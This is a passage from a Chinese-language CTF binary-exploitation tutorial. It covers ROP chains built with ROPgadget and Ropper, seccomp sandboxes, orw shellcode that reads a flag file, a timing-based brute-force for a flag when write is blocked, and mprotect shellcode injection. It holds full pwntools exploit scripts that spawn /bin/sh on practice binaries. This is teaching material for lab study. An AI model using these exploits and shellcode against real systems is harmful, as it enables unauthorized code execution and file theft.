// gcc ropchain.c -o ropchain -fno-stack-protector -no-pie --static
```

main函数主要逻辑就是gets溢出buf, 然后可以覆盖函数返回地址


buf距离函数返回地址的offset为0x18

接下来就可以用工具一把梭了

#### ROPgadget

命令为

```sh
ROPgadget --binary elf --ropchain
```


最后一大堆的东西就是我们要溢出覆盖的内容

但是要做一些处理, python首先就是缩进敏感, 复制这些代码, 需要将前面的空格都去掉, 并且pack需要写为完整的`struct.pack` , 同时导入struct包, 整合后的脚本为

##### Exploit

```python
from pwn import*
from struct import pack
o = process("./ropchain")

p = 'a'*0x18
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x00000000004005af) # pop rax ; ret
p += '/bin//sh'
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x00000000004006a6) # pop rdi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000403992) # pop rdx ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x000000000040120c) # syscall
o.sendline(p)
o.interactive()
```


#### Ropper

ROPgadget搜寻的chain有点太长了, 所以不是很好, 但是Ropper生成的就比较短

命令为

```sh
ropper -f elf --chain "execve cmd=/bin/sh"
```


这个要做处理的就比较少, 只要把pack前加上struct就行

脚本为

##### Exploit

```python
from struct import pack
from pwn import*

p = lambda x : struct.pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 9f72ca947866add6ab0baafe740a536729f891f13847b44c4f3d7661c89a1be6
rebase_0 = lambda x : p(x + IMAGE_BASE_0)
o = process('./ropchain')

rop = 'a'*0x18
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010053) # 0x0000000000410053: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000003992) # 0x0000000000403992: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x00000000000005af) # 0x00000000004005af: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074a25) # 0x0000000000474a25: syscall; ret; 
#print(rop)
o.sendline(rop)
o.interactive()
```


Ropper需要自己装, ROPgadget在装pwntools的时候就安装好了, 不需要操心, 各有优点吧, 有兴趣可以把chain执行哪些代码自己研究, 以后也可以自己写chain

### 实战

### 参考

## orw shellcode injection

### 介绍

正常的shellcode注入都是通过execve获取shell来进行的, 但是有时候会加上沙盒机制, 也就是禁用掉execve系统调用, 这就导致得换种方法来获取flag, 也就是这里所讲的orw(open, read, write)

### 沙盒

沙盒机制英文为sandbox，是一种虚拟技术，主要是用来针对于恶意程序，恶意程序调用的系统函数一般都是固定的，只要我们检测是否有调用这几个函数，那么就能判断该程序是否为恶意程序，进而退出程序执行，而不会对真实系统造成损坏
对于CTF主要针对于execve、write、open、read这类系统调用函数，来增加获取flag的难度，但是可以通过其他方法来实现"绕过"限制获取flag
现在CTF中实现沙盒主要有两种方式，第一种是靠prctl函数，这个是系统调用自带的，系统调用号为117，还有一种就是用seccomp库函数 

#### prctl沙盒

函数原型为

```c
#inlucde<sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5)
```

后面的几个参数主要依赖与option这个参数，option的参数很多，可以去看官方手册
https://man7.org/linux/man-pages/man2/prctl.2.html
这里主要讲几个常见的option


PR_SET_NO_NEW_PRIVS可以将调用线程的no_new_privs属性设置为arg2中的值，arg2设置为1，那么线程就不能通过execve系统调用进行提权，也就是说你获取一个shell，运行用户权限是啥，新shell权限就是啥
这个option只对execve有效


PR_SET_SECCOMP可以设置线程为seccomp模式来限制系统调用，通过arg2可以设置seccomp模式，这些模式信息保存在linux/seccomp.h中

```c
/* Valid values for seccomp.mode and prctl(PR_SET_SECCOMP, <mode>) */
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. seccomp不启用*/
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. 使用hard-coded过滤模式，也就是只开放read,write,_exit,sigreturn这几个syscall*/
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. 使用user-supplied过滤模式，通过arg3的结构体自定义过滤规则 */
```

SECCOMP_MODE_STRICT直接设置就行，不需要arg3，而SECCOMP_MODE_FILTER则需要通过arg3结构体指针sock_fprog来设置规则，sock_fprog结构体在linux/filter.h中

```c
struct sock_fprog {
    unsigned short len;  //指令的个数
    struct sock_filter *filter;  //指向包含sock_filter结构题的指针
}
```

sock_filter结构体也在该文件中

```c
struct sock_filter {	/* Filter block */
	__u16	code;   /* 过滤码 */
	__u8	jt;	/* 跳转到True路径 */
	__u8	jf;	/* 跳转到False路径 */
	__u32	k;      /* 通用多用途字段 */
};
```

但filter.h文件中已经有一些定义好的宏可以直接用来设置sock_filter

```c
#define BPF_STMT(code, k) { (unsigned short)(code), 0, 0, k }
#define BPF_JUMP(code, k, jt, jf) { (unsigned short)(code), jt, jf, k }
// 用于筛选块阵列初始化器的宏
```

这些code在linux/bpf_common.h文件中，这些指令对应的信息可以看这个网址
https://www.cnblogs.com/kwingmei/p/3629668.html
如果只禁用execve的规则为

```c
struct sock_filter[] = {
    BPF_STMT(BPF_LD+BPF_W+BPF_ABS, 0), //将帧偏移0处，取4个字节，也就是将系统调用号存入累计器
    BPF_JUMP(BPF_JMP+BPF_JEQ, 59, 0, 1),  //当A == 59时，也就是调用execve时，则顺序执行下一条规则KILL，否则跳转执行ALLOW
    BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),  //返回KILL，SECCOMP...这个可以在seccomp.h里查询
    BPF_STMT(BPF_RET+BOF_K, SECCOMP_RET_ALLOW),  //返回Allow
}
```

完整的实现为

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/prctl.h>
#include<linux/seccomp.h>
#include<linux/filter.h>

int main() {
    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, 0), //将帧偏移0处，取4个字节，也就是将系统调用号存入累计器
        BPF_JUMP(BPF_JMP+BPF_JEQ, 59, 0, 1),  //当A == 59时，也就是调用execve时，则顺序执行下一条规则KILL，否则跳转执行ALLOW
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),  //返回KILL，SECCOMP...这个可以在seccomp.h里查询
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_ALLOW),  //返回Allow
    };
    struct sock_fprog prog;
    prog.len = (unsigned short)(sizeof(filter)/sizeof(filter[0]));
    prog.filter = filter;
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
    printf("test\n");
    system("/bin/sh");
    return 0;
}
```


可以看到并没有获取到新shell，因为被禁用了

#### seccomp函数库沙盒

首先需要安装seccomp库

```sh
$ apt-get install libseccomp-dev libseccomp2 seccomp
```

通过seccomp函数库定义规则要比prctl要简单
开始时先初始化一个scmp_filter_ctx结构体，然后就可以向ctx中添加规则，最后通过seccomp_load函数加载规则

```c
scmp_filter_ctx ctx;  //过滤器的结构体
ctx = seccomp_init(SCMP_ACT_ALLOW);  //初始化为黑名单模式，如果为SCMP_ACT_KILL则为白名单，即杀死所有不匹配的调用，默认是全部杀死
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);  //添加规则，禁用execve调用
seccomp_load(ctx);  //加载规则
```

seccomp_init函数原型为

```c
scmp_filter_ctx seccomp_init(uint32_t def_action);
```

其中def_action为

```c
/*
 * seccomp actions
 */
 
/**
 * Kill the process
 */
#define SCMP_ACT_KILL        0x00000000U
/**
 * Throw a SIGSYS signal
 */
#define SCMP_ACT_TRAP        0x00030000U
/**
 * Return the specified error code
 */
#define SCMP_ACT_ERRNO(x)    (0x00050000U | ((x) & 0x0000ffffU))
/**
 * Notify a tracing process with the specified value
 */
#define SCMP_ACT_TRACE(x)    (0x7ff00000U | ((x) & 0x0000ffffU))
/**
 * Allow the syscall to be executed after the action has been logged
 */
#define SCMP_ACT_LOG        0x7ffc0000U
/**
 * Allow the syscall to be executed
 */
#define SCMP_ACT_ALLOW        0x7fff0000U
```

seccomp_rule_add函数原型为

```c
int sccomp_rule_add(scmp_filter_ctx, uint32_t action, int syscall, unsigned int arg_cnt,..);
```

arg_cnt表明是否需要对对应系统调用的参数做出限制以及指示做出限制的个数，一般填0就行，代表所有参数都允许或禁止
更高级的限制还需要深入学习seccomp
完整实现为

```c
#include<stdio.h>
#include<stdlib.h>
#include<linux/seccomp.h>
#include<seccomp.h>

int main() {
    scmp_filter_ctx ctx;  //过滤器的结构体
    ctx = seccomp_init(SCMP_ACT_ALLOW);  //初始化为黑名单模式，如果为SCMP_ACT_KILL则为白名单，即杀死所有不匹配的调用，默认是全部杀死
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);  //添加规则，禁用execve调用
    seccomp_load(ctx);  //加载规则
    printf("test\n");
    system("/bin/sh");
    return 0;
}
// gcc seccomp_test.c -o seccomp_test -lseccomp
```


### open, read, write系统调用

分别来看一下x86和x64中对应的系统调用号

x86

```c
#define __NR_read 3
#define __NR_write 4
#define __NR_open 5
```

获取flag的代码片段为

```c
; open("flag", 0, 0) 打开flag文件
push 0				; 将flag字符串和其他内容进行隔断
push 0x67616c66		; 将flag字符串压入栈
push esp			; 压入esp, 也就是将flag字符串地址压入栈
pop ebx				; 将flag字符串压入第一个参数寄存器
xor ecx, ecx		; 将第二个参数寄存器赋值为0
xor edx, edx		; 将第三个参数寄存器赋值为0
mov eax, 5			; 将open的系统调用号存入eax
int 0x80			; 中断执行open函数
; read(3, buf, 0x50) 读取flag文件内容到缓冲区
push 3
pop ebx				; 打开文件的文件描述符为3, 传递给第一个参数寄存器
; 这里也可以写为
; push eax
; pop ebx
; 因为open打开文件后会将文件描述符存入eax寄存器中
push esp
pop ecx				; buf地址可以选取很多地方, 比如bss段之类的, 这里直接选用了栈地址存入第二个参数寄存器
push 0x50
pop edx				; 读取0x50个字节, 将0x50存入第三个参数寄存器
mov eax, 3			; read系统调用号存入eax
int 0x80			; 中断执行read函数
; write(1, buf, 0x50) 将flag内容写入到屏幕
sub ebx, 0x2		; 原本ebx存储的是3, 减去2即为1, 也就是标准输出
; 另外两个参数寄存器不需要改动
mov eax, 4			; write系统调用存入eax
int 0x80			; 中断执行write
```

用内联汇编来运行看对不对

```c
int main() {
        __asm("push 0\n"
                "push 0x67616c66\n"
                "push esp\n"
                "pop ebx\n"
                "xor ecx, ecx\n"
                "xor edx, edx\n"
                "mov eax, 5\n"
                "int 0x80\n"
                "push 3\n"
                "pop ebx\n"
                "push esp\n"
                "pop ecx\n"
                "push 0x50\n"
                "pop edx\n"
                "mov eax, 3\n"
                "int 0x80\n"
                "sub ebx, 2\n"
                "mov eax, 4\n"
                "int 0x80");
        return 0;
}
// gcc orw_x86_test.c -o orw_x86_test -m32 -masm=intel
```


x64

```c
#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
```

获取flag的代码片段为

```c
; open("flag", 0, 0) 打开flag文件
push 0x67616c66		; 将flag字符串压入栈, 自动'\x00'隔断
push rsp			; 压入rsp, 也就是将flag字符串地址压入栈
pop rdi				; 将flag字符串压入第一个参数寄存器
xor rsi, rsi		; 将第二个参数寄存器赋值为0
xor rdx, rdx		; 将第三个参数寄存器赋值为0
mov rax, 2			; 将open的系统调用号存入rax
syscall 			; 中断执行open函数
; read(3, buf, 0x50) 读取flag文件内容到缓冲区
push 3
pop rdi				; 打开文件的文件描述符为3, 传递给第一个参数寄存器
; 这里也可以写为
; push rax
; pop rdi
; 因为open打开文件后会将文件描述符存入rax寄存器中
push rsp
pop rsi				; buf地址可以选取很多地方, 比如bss段之类的, 这里直接选用了栈地址存入第二个参数寄存器
push 0x50
pop rdx				; 读取0x50个字节, 将0x50存入第三个参数寄存器
mov rax, 0			; read系统调用号存入rax
syscall 			; 中断执行read函数
; write(1, buf, 0x50) 将flag内容写入到屏幕
sub rdi, 0x2		; 原本rdi存储的是3, 减去2即为1, 也就是标准输出
; 另外两个参数寄存器不需要改动
mov rax, 1			; write系统调用存入rax
syscall 			; 中断执行write
```

内联汇编运行

```c
int main() {
        __asm(
                "push 0x67616c66\n"
                "push rsp\n"
                "pop rdi\n"
                "xor rsi, rsi\n"
                "xor rdx, rdx\n"
                "mov rax, 2\n"
                "syscall\n"
                "push 3\n"
                "pop rdi\n"
                "push rsp\n"
                "pop rsi\n"
                "push 0x50\n"
                "pop rdx\n"
                "mov rax, 0\n"
                "syscall\n"
                "sub rdi, 2\n"
                "mov rax, 1\n"
                "syscall");
        return 0;
}
// gcc orw_x64_test.c -o orw_x64_test -masn=intel
```


### orw shellcode

其实和ret2shellcode差不多, 只不过换了shellcode的内容而已, 以一道题来说

```c
#include<unistd.h>
#include<sys/mman.h>
#include<stdio.h>
#include<seccomp.h>
#include<linux/seccomp.h>
#include<sys/prctl.h>
#include<linux/filter.h>

void init() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

int main() {
	init();
	puts("ORW ShellCode?");
	int size = getpagesize();
	void *ptr = mmap((void *)0x1000, size, 7, 34, 0, 0);
	read(0, ptr, 0x100);
	prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
	scmp_filter_ctx ctx;
	ctx = seccomp_init(SCMP_ACT_KILL);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_load(ctx);
	((void(*)(void))ptr)();
	return 0;
}
// gcc orw_shellcode.c -o orw_shellcode -lseccomp
```

这道题通过seccomp和pctl加了沙盒, 可以通过seccomp-tools来查看具体加的保护


返回的结果还是比较好看懂的, 第2行获取系统调用号, 如果系统调用号不等于open, read和write的就会跳转到KILL, 程序直接退出, 反之则ALLOW继续运行

这道题的逻辑也很好懂, 就是申请了一个具有可读可写可执行的mmap区, 然后我们写入shellcode, 直接跳转去执行, 所以直接用orw代码片段就可以

#### Exploit

```python
from pwn import*
context.log_level = 'debug'
context.os = 'linux'	# 指定操作系统
context.arch = 'amd64'	# 指定架构
# 不指定那两个asm就会执行错误

o = process('./orw_shellcode')

shellc = '''
push 0x67616c66
push rsp
pop rdi
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
push 3
pop rdi
push 0x10100
pop rsi
push 0x50
pop rdx
mov rax, 0
syscall
push 1
pop rdi
mov rax, 1
syscall
'''
shellc = asm(shellc)
o.recv()
o.sendline(shellc)
o.interactive()
```

可以自己去分析一下这里的shellcode


#### pwntools Exploit

pwntools里提供了简便的orw方法

```python
from pwn import*
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

o = process('./orw_shellcode')

shellc = shellcraft.open('flag')	# pwntools内置方法
shellc += shellcraft.read('rax', 'rsp', 0x50)
shellc += shellcraft.write(1, 'rsp', 0x50)
shellc = asm(shellc)
o.recv()
o.sendline(shellc)
o.interactive()
```


### 拓展 BPF

### 实战

-   [orw](#orw)

### 参考

-   https://man7.org/linux/man-pages/man2/prctl.2.html
-   https://blog.csdn.net/A951860555/article/details/116738676
-   https://www.anquanke.com/post/id/186447#h3-8
-   http://www.manongjc.com/detail/23-dmqaxruavrevtnc.html
-   http://homura.cc/blog/archives/145
-   https://bbs.pediy.com/thread-258146.htm
-   https://blog.csdn.net/A951860555/article/details/116738676
-   https://bbs.pediy.com/thread-267566.htm
-   《Linux内核观测技术BPF》
-   《BPF之巅 洞悉Linux系统和应用性能》

## or shellcode injection

### 介绍

该种题型是在orw类型上又提升了一个难度, 将write系统调用给禁用了, 这就导致无法将flag内容写到屏幕, 这里采用的一种技巧就是通过cmp和jz指令对比爆破flag

### cmp与jz

cmp是汇编当中的比较指令, 它本质上做的是减法操作, 目的操作数减去源操作数, 然后通过比较结果大于小于等于0来修改零标志位和进位标志位

| 比较结果              | CF进位标志位 | ZF零标志位 |
| --------------------- | ------------ | ---------- |
| 目的操作数 > 源操作数 | 0            | 0          |
| 目的操作数 = 源操作数 | 0            | 1          |
| 目的操作数 < 源操作数 | 1            | 0          |

我们要的情况就是比对结果相等, 也就是ZF标志位置1

而jz全称应该为jmp if zero, 也就是如果为0就跳转, 这里的0指的就是ZF零标志位置1的情况

有了这两条指令, 就可以构造一种代码: 当字符对比成功就进入无限死循环

```c
loop:
cmp byte ptr[buf+i], ch
jz loop
```

buf+i为flag中的第几个字符, ch是我们给定的字符列表中的一个字符

### or shellcode

or shellcode主要利用的思想就是, 如果程序正常不进入死循环, 那么开始运行程序到程序退出, 之间的间隔肯定小于1s, 如果进入死循环, 我们设置当超过1s时, 自动kill掉程序, 那么时间间隔肯定会大于1s, 间接证明字符比对成功

可以将该类题型归结为模板, 直接套用就行

```python
# 模板
from pwn import*
import time
context(os='linux', arch='xxx')

def attack(o, i, ch):
    shellc = shellcraft.open("flag")
    shellc += shellcraft.read("rax", "rsp", 0x50)	# or读取flag到内存中
    shellc += "loop:"	# 跳转标签
    shellc += "cmp byte ptr[rsi+{0}], {1}".format(i, ord(ch))	# rsi也就是read的第二个参数, 存储的是存储flag的内存地址, rsi+i也就是指向了flag第几个字节, byte ptr[rsi+i]为获取一个字节, ch为用来爆破比对的字符
    shellc += "jz loop"	# 如果cmp比对成功, 就跳转到loop, 接着就会一直比对那一个字符, 进入无限死循环
    o.recv()
    o.sendline(asm(shellc))

if __name__ == "__main__":
    li = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}1234567890_-"	# 爆破字符集
    i = 0	# flag中字符定位
    flag = []	# 存放比对成功的flag字符
    while(xxx-i):	# 循环flag每个字符
        for ch in li:	# 循环字符集中每个字符
            o = process('./elf')
            start_time = time.time()	# 获取开始的时间
            attack(o, i, ch)	# 发送shellcode执行
            try:	# 防止直接报错退出整个脚本
                o.recv(timeout=2)	# 设置recv的timeout属性, 也就是当超过2s钟接收不到内容, 就自动kill掉程序, 当进入死循环的时候, 程序不会发送东西, 所以recv肯定会进入阻塞状态, 到2s后结束程序, 正常不进入死循环, 肯定就直接退出
           	except:
                pass
            end_time = time.time()	# 获取结束时间
            o.close()
            if end_time - start_time > 1:
                flag.append(ch)	# 对比成功的字符放进列表
                break	# 退出for循环, 比对下一个flag字符
        else:	# 如果遍历了字符集还没有找到
            flag.append("?")	# 用?来占位置
        i += 1	# flag字符位置+1
	print flag	# 打印匹配到flag
```

以一道题来讲解

```c
#include<unistd.h>
#include<sys/mman.h>
#include<stdio.h>
#include<seccomp.h>
#include<linux/seccomp.h>
#include<sys/prctl.h>
#include<linux/filter.h>

void init() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

int main() {
	init();
	puts("OR ShellCode?");
	int size = getpagesize();
	void *ptr = mmap((void *)0x1000, size, 7, 34, 0, 0);
	read(0, ptr, 0x100);
	prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
	scmp_filter_ctx ctx;
	ctx = seccomp_init(SCMP_ACT_KILL);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_load(ctx);
	((void(*)(void))ptr)();
	return 0;
}
// gcc or_shellcode.c -o or_shellcode -lseccomp
```

用seccomp-tools来查看规则


这里只有open和read是ALLOW的, 那么orw肯定就会时效, 然后直接套用模板来看一下

#### Exploit

```python
from pwn import*
import time
context(os='linux', arch='amd64')

def attack(o, i, ch):
	shellc = shellcraft.open("flag")
	shellc += shellcraft.read("rax", "rsp", 0x50)
	shellc += "loop:\n"
	shellc += "cmp byte ptr[rsi+{0}], {1}\n".format(i, ord(ch))
	shellc += "jz loop"
	o.recv()
	o.sendline(asm(shellc))

if __name__ == "__main__":
	li = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}1234567890_-"
	i = 0
	flag = []
	while(10-i):
		for ch in li:
			o = process('./or_shellcode')
			start_time = time.time()
			attack(o, i, ch)
			try:
				o.recv(timeout=2)
			except:
				pass
			end_time = time.time()
			o.close()
			if end_time - start_time > 1:
				flag.append(ch)
				break
		else:
			flag.append("?")
		i += 1
	print flag
```

如果脚本没写错, 那么中间执行有一些部分有停顿, 跑几分钟应该就会出结果


如果出问题可以尝试执行一次调试看看

>   有时候远程连接的时候要注意可能IO速度太快导致网络无法反馈，最后ans可能为空，解决方法是打开调试模式，或者添加两次连接之间的间隔

### 实战

-   [2021 蓝帽杯 slient](#slient)

### 参考

-   http://c.biancheng.net/view/3561.html

## double shellcode injection


## mprotect shellcode injection

### 介绍

前一篇[ROPChain](#ROPChain)讲过有时候会遇到一些静态编译的题目, 但是输入如果受到字节限制, 那么就不能再采用ROPChain那种方法来做, 可以尝试搜寻程序中的mprotect函数地址, 然后通过mprotect修改数据段的可执行权限, 接着注入shellcode, 最后跳转去执行这段shellcode获取shell

### mprotect

mprotect函数作用是修改某一段内存的权限

函数原型为

```c
#include<unistd.h>
#include<sys/mman.h>
int mprotect(const void *start, size_t len, int prot);
```

mprotect把从start开始的, 长度为len的一段内存, 修改权限为prot指定的值

prot有几种值:

-   PROT_READ : 表示内存段的内容可写, 转换为数字为1
-   PROT_WRITE : 表示内存段的内容可读, 转换为数字为2
-   PROT_EXEC : 表示内存段的内容可执行, 转换为数字为4
-   PROT_NONE : 表示内存段中的内容根本不可访问, 转换为数字为0

之间可以用或运算`|`进行组合

顺便讲一下mprotect返回值的含义: 返回0表示执行成功, 返回-1表示失败

需要注意的是, mprotect修改的内存区间必须包含整个内存页(4K, 0x1000), 也就是说start必须是内存页起始的地址, 并且区间长度必须len必须是内存页的整数倍

我们以一个例子来讲, 如果我们从将bss段开始0x100个字节的内存区间修改权限为7(可读可写可执行), 看它的返回结果是什么样的

```c
#include<stdio.h>
#include<unistd.h>
#include<sys/mman.h>
extern char edata;	// edata是data段的末尾, 程序自带的变量
int main() {
    	printf("bss address : %p\n", &edata);
        int result = mprotect(&edata, 0x100, 7);
        printf("%d\n", result);
        return 0;
}
// gcc mprotect_test.c -o mprotect_test -no-pie
```


发现bss开始并不和内存页对齐, 而且0x100也不是内存页的倍数, 所以根本就不会执行成功, 如果把bss地址减去0x38刚好就和内存页对齐了, 试一试

```c
#include<stdio.h>
#include<unistd.h>
#include<sys/mman.h>
extern char edata;	// edata是data段的末尾, bss段的开始, 是库自带的一个变量
int main() {
    	printf("bss address : %p\n", &edata-0x38);
        int result = mprotect(&edata-0x38, 0x100, 7);
        printf("%d\n", result);
        return 0;
}
// gcc mprotect_test.c -o mprotect_test -no-pie
```


gdb看它的一个内存权限变化



这是执行mprotect之前的权限


这是执行mprotect之后的权限, 可以发现一个问题, 虽然len我们设置的不是内存页的倍数, 但是它还是自动将整个内存页的权限都设置为7了, 所以现在bss段就是具备可执行权限的内存了, 可以注入shellcode, 然后跳转过来执行

### mprotect shellcode

以一个题目来讲解

```c
#include<stdio.h>
#include<unistd.h>

int main() {
    char buf[0x10];
    printf("Who are you?\n");
    read(0, buf, 0x60);
    return 0;
}
// gcc mprotect_shellcode.c -o mprotect_shellcode -fno-stack-protector -no-pie --static
```

很简单的溢出漏洞, 但是肯定不支持ROPChain那种方法, 但是可以从程序中找到mprotect函数


这道题中的所有函数地址都是固定的, 所以可以溢出覆盖来构造mprotect的rop链, 首先需要找一块可写内存来可供写入shellcode


这里可以直接选这个区, 地址是固定的, 比较好利用, 由于是64位程序, 所以还需要搜寻一波`pop|ret`


mprotect需要三个参数, 所以这三个刚刚好

```python
from pwn import*

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
